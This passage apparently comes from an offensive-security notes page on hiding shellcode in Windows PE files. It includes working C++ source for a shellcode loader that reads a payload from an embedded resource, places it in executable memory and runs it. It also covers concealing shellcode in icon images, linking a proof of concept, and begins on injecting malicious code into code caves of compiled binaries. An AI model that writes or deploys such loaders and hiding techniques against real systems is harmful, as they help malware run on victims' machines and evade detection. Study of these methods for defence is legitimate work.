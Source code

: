 

```cpp
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_RESOURCE_BIN1 - is the resource ID - which contains ths shellcode
	// RESOURCE_BIN is the resource type name we chose earlier when embedding the resource.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_RESOURCE_BIN1), L"RESOURCE_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);

	void* exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

### <mark style="color:orange;">ICON Images</mark>

icons are stored in the resources section of the PE file. since icons include images and images can have different entropy (very high and very low), this is a good place for hiding our shellcode.

here is an interesting blog post on this topic:

{% embed url="https://morph3.blog/posts/Exotic-ways-of-hiding-shellcode-Part-1-Icons" %}

the PoC is on github, you may need to change it to match your shellcode size and your color of choice:

{% embed url="https://github.com/morph3/gizligizli/" %}

{% hint style="danger" %}
This code only works for shellcode size < 765 bytes.
{% endhint %}



***

## <mark style="color:red;">Code Cave</mark>

Abusing code caves is an old technique to inject malicious shellcode (or any arbitrary instructions) into an already compiled PE file.&#x20;

A code cave is an empty address space of PE file that  is used for  purposes such as:

* Patch Points
* Alignment and Padding
* Debugging and Testing Code
* Optimization Techniques
* Anti-analysis and anti-reversing techniques
* Historical Reasons
